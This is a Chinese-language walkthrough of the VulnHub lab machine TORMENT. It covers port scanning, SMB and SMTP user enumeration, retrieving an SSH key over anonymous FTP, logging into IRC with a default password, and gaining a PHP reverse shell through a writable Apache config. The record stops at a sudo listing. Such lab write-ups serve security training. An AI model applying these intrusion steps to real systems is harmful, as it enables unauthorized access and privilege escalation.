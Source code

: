 # digitalworld.local: TORMENT

> https://download.vulnhub.com/digitalworld/TORMENT.7z

靶场IP：`192.168.32.199`

扫描对外服务

```
┌──(root💀kali)-[~/Desktop]
└─# nmap -p 1-65535 -sV  192.168.32.199
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-04 21:59 EDT
Nmap scan report for 192.168.32.199
Host is up (0.00048s latency).
Not shown: 65516 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         vsftpd 2.0.8 or later
22/tcp    open  ssh         OpenSSH 7.4p1 Debian 10+deb9u4 (protocol 2.0)
25/tcp    open  smtp        Postfix smtpd
80/tcp    open  http        Apache httpd 2.4.25
111/tcp   open  rpcbind     2-4 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp   open  imap        Dovecot imapd
445/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
631/tcp   open  ipp         CUPS 2.2
2049/tcp  open  nfs_acl     3 (RPC #100227)
6667/tcp  open  irc         ngircd
6668/tcp  open  irc         ngircd
6669/tcp  open  irc         ngircd
6672/tcp  open  irc         ngircd
6674/tcp  open  irc         ngircd
32971/tcp open  mountd      1-3 (RPC #100005)
34959/tcp open  nlockmgr    1-4 (RPC #100021)
42269/tcp open  mountd      1-3 (RPC #100005)
49805/tcp open  mountd      1-3 (RPC #100005)
MAC Address: 00:0C:29:D6:A8:67 (VMware)
Service Info: Hosts:  TORMENT.localdomain, TORMENT, irc.example.net; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.60 seconds

```

FTP有匿名登录。

![image-20220905100558463](../../.gitbook/assets/image-20220905100558463.png)

服务器上有很多文件和隐藏目录。我下载了所有文件并一一检查。我们有`id_rsa`in`.ssh`和`channels`in`.ngircd`目录。

![image-20220905100721489](../../.gitbook/assets/image-20220905100721489.png)

![image-20220905100750534](../../.gitbook/assets/image-20220905100750534.png)

![image-20220905100811590](../../.gitbook/assets/image-20220905100811590.png)

我使用了 `smbmap` 和 `enum4linux` 但这里没有什么有趣的。

```
┌──(root💀kali)-[~/Desktop]
└─# smbmap -H 192.168.32.199
[+] Guest session       IP: 192.168.32.199:445  Name: 192.168.32.199  
```

```
┌──(root💀kali)-[~/Desktop]
└─# enum4linux 192.168.32.199
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sun Sep  4 22:10:54 2022

 ========================== 
|    Target Information    |
 ========================== 
Target ........... 192.168.32.199
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ====================================================== 
|    Enumerating Workgroup/Domain on 192.168.32.199    |
 ====================================================== 
[+] Got domain/workgroup name: WORKGROUP

 ============================================== 
|    Nbtstat Information for 192.168.32.199    |
 ============================================== 
Looking up status of 192.168.32.199
        TORMENT         <00> -         B <ACTIVE>  Workstation Service
        TORMENT         <03> -         B <ACTIVE>  Messenger Service
        TORMENT         <20> -         B <ACTIVE>  File Server Service
        ..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser
        WORKGROUP       <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
        WORKGROUP       <1d> -         B <ACTIVE>  Master Browser
        WORKGROUP       <1e> - <GROUP> B <ACTIVE>  Browser Service Elections

        MAC Address = 00-00-00-00-00-00

 ======================================= 
|    Session Check on 192.168.32.199    |
 ======================================= 
[E] Server doesn't allow session using username '', password ''.  Aborting remainder of tests.

```

我们可以使用浏览器访问端口 631。在`/printers`选项卡中，在队列名称下，我们将获得一些可能是潜在用户名的名称。

![image-20220905101259202](../../.gitbook/assets/image-20220905101259202.png)

```
albert
cherrlt
david
edmund
ethan
eva
genevieve
govindasamy
jessica
kenny
patrick
qinyi
qiu
roland
sara
```

为了找出有效用户，我使用了 metasploit `smtp`module( `auxiliary/scanner/smtp/smtp_enum`) 并得到了两个有效用户。

```
msf6 > use auxiliary/scanner/smtp/smtp_enum
msf6 auxiliary(scanner/smtp/smtp_enum) > set rhosts 192.168.32.199
rhosts => 192.168.32.199
msf6 auxiliary(scanner/smtp/smtp_enum) > set user_file  /tmp/user
user_file => /tmp/user
msf6 auxiliary(scanner/smtp/smtp_enum) > run

[*] 192.168.32.199:25     - 192.168.32.199:25 Banner: 220 TORMENT.localdomain ESMTP Postfix (Debian/GNU)
[+] 192.168.32.199:25     - 192.168.32.199:25 Users found: patrick, qiu
[*] 192.168.32.199:25     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

找到用户后，我尝试暴力破解 ssh、ftp、http 但没有运气。所以我专注于 Ngircd 聊天服务。我使用 hexchat 来访问它。

![image-20220905103404905](../../.gitbook/assets/image-20220905103404905.png)

我们需要密码才能登录。于是我在网上搜索了ngircd配置文件，得到了一个默认密码。

```
wealllikedebian
```

![image-20220905103002514](../../.gitbook/assets/image-20220905103002514.png)

现在使用密码连接到服务器。

![image-20220905103428317](../../.gitbook/assets/image-20220905103428317.png)

我使用频道名称连接到我们在 FTP 侦察期间找到的服务器。

```
/join #tormentedprinter
```

我使用上述命令连接到`tormentedprinter`频道并找到密码。

![image-20220905103507929](../../.gitbook/assets/image-20220905103507929.png)

```
mostmachineshaveasupersecurekeyandalongpassphrase
```

使用`tormentedprinter`通道中的 SSH 密钥和密码，我们可以登录 ssh。

![image-20220905103659681](../../.gitbook/assets/image-20220905103659681.png)

我发现`apache2.conf`所有用户都有读、写和执行权限。

```
patrick@TORMENT:~$ find /etc -type f -writable 2>/dev/null
/etc/apache2/apache2.conf
```

使用`apache2.conf`file 我们可以以 qiu 用户身份启动 shell。

1. 添加用户 qiu 和 qiu 组`/etc/apache2/apache2.conf`。

   ![image-20220905104000008](../../.gitbook/assets/image-20220905104000008.png)

2. `/var/www/html`在文件夹中上传php反向。

![image-20220905104116282](../../.gitbook/assets/image-20220905104116282.png)

重启系统

```
sudo /bin/systemctl reboot
```

使用 `http://ip/php-reverse-shell.php`设置监听器并访问 shell

![image-20220905104733977](../../.gitbook/assets/image-20220905104733977.png)

查看sudo列表

```
qiu@TORMENT:/$ sudo -l
sudo -l
Matching Defaults entries for qiu on TORMENT:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User qiu may run the following commands on TORMENT:
    (ALL) NOPASSWD: /usr/bin/python, /bin/systemctl
qiu@TORMENT:/$ 

```

